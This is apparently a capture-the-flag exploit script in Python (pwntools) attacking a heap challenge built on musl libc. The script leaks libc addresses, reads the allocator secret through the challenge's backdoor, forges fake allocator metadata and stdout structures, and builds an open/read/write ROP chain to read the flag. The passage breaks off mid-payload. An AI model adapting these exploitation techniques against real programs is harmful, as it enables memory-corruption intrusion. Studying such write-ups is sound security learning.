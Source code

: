 ```python
def delete(idx ):
    cmd(3)
    sla('Index: ' , idx)

def backdoor(addr):
    cmd(666)
    sla('[IN]: ' , addr)

def attack():
    
    for i in range(3):
        add(0x30,'a'*0x10,'a'*0x30)
    
    delete(0)
    delete(1)
    add(0x30,'a'*0x10)
    add(0xe0,'a'*0x10)
    show(1)

    libc.address =  l64() - 0xb7e50
    libc_base = libc.address
    __malloc_context = libc_base + 0xb4ac0
    __stdout_used = libc_base + 0xb43b0
    magic_gadget = libc_base + 0x7b1f5
    mem_addr = libc_base + 0xb7cd0

    pointer_addr = libc_base - 0x6fe0
    fake_meta_addr = pointer_addr + 0x1000 - 0x18
    flag_addr = pointer_addr
    fake_stdout_used = pointer_addr + 0x30
    rop_addr = pointer_addr + 0xe0

    ret = libc.search(asm("pop rdi;ret")).next() + 1

    rop = ROP(libc)
    rop.open(flag_addr,0)
    rop.read(3,flag_addr,0x30)
    rop.write(1,flag_addr,0x30)

    backdoor(__malloc_context)

    ru('[OUT]: ')
    secret = uu64(8)

    delete(0)
    delete(1)
    add(0x38)
    add(0x38)

    payload = 'a'*0x30 + p64(fake_meta_addr)

    edit(1 , payload)
    # dbg()

    fake_meta = p64(secret)+p64(fake_stdout_used ) + p64(__stdout_used)+p64(mem_addr)+p32(0x7e)+p32(0)
    freeable = 1 
    maplen = 1  
    sizeclass = 4  
    last_idx = 6
    last_value = last_idx | (freeable << 5) | (sizeclass << 6) | (maplen << 12)
    fake_meta += p64(last_value) + p64(0)

```
